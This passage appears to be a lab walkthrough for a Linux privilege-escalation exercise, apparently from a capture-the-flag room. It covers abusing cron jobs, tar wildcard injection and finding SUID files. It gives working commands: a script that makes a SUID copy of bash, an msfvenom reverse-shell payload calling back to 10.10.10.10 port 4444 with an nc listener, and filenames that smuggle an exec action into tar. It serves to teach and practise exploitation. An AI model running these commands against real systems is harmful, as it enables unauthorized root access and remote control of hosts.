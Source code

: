 First display the content of cron jobs.
```
cat /etc/crontab
```

Then you have to create a file named overwrite.sh
```
vim overwrite.sh
```

Paste the code below.
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that file is excutable.
```
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run.
```
/tmp/rootbash -p
```

#### Task 10: Cron Jobs - Wildcards

- Read and follow along with the above.
	- `No answer needed`

```
cat /usr/local/bin/compress.sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
chmod +x /home/user/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
nc -nvlp 4444
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

#### Task 11: SUID / SGID Executables - Known Exploits

- Read and follow along with the above.
	- `No answer needed`

Find the SUID/SGID exploit.
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```	


#### Task 12: SUID / SGID Executables - Shared Object Injection
